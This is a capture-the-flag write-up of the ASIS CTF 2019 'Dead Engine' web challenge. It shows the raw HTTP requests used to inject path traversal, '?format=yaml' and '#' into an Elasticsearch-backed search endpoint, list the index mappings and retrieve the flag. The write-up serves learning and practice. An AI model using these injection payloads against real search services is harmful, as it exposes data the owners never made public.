# ASIS CTF quals - 2019

###### Contributed by Cyku

## Dead Engine - 112 / Web


Description:
Have you ever thought, what would you have done if you had access to all the data stored on the Google database?

Please don't scan the server! It won't help you.


### Solution

This challenge has only one simple web page. Looks like:
![](DeadEngine_01.png)

When you type something into the input box, it would perform a AJAX request to `/?action`. 

AJAX request:
```
POST /?action HTTP/1.1
Host: 192.241.183.207
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 19

q=a&endpoint=search
```
![](DeadEngine_02.png)

We fuzzed the parameter `endpoint` and found some strange messages.
```
POST /?action HTTP/1.1
Host: 192.241.183.207
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 21

q=a&endpoint=./search
```
![](DeadEngine_03.png)

According to this message, we can guess that the backend is an `Elastic Search` service. This AJAX api would directly show the response from `Elastic Search` if `json_decode` failed.

And then we found that we can even inject `?`, `#` to the search API of Elastic Search. Use `?format=yaml` to force the Elastic Search to return the yaml format instead of json, so `json_decode` always fails and show whole response from Elastic Search. Use `#` to hide other parameters on search API, make sure the search result is what we expected.
```
POST /?action HTTP/1.1
Host: 192.241.183.207
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 36

q=a&endpoint=./search?format=yaml%23
```
![](DeadEngine_04.png)

Elastic Search provides a API called `_mapping`. This API allows us to retrieve mapping definitions for an index.

We tried to get mappings of all indices and types, and found an index named `secr3td4ta` contains a type named `fl4g?`, looks like it should has the flag!
```
POST /?action HTTP/1.1
Host: 192.241.183.207
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 46

q=a&endpoint=/../../../_mapping?format=yaml%23
```
![](DeadEngine_05.png)

Last step, use search API to get flag.
```
POST /?action HTTP/1.1
Host: 192.241.183.207
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close
Content-Length: 66

q=a&endpoint=/../../../secr3td4ta/fl4g%253f/_search?format=yaml%23
```
![](DeadEngine_06.png)

`ASIS{2a6e210f10784c9a0197ba164b94f25d}`
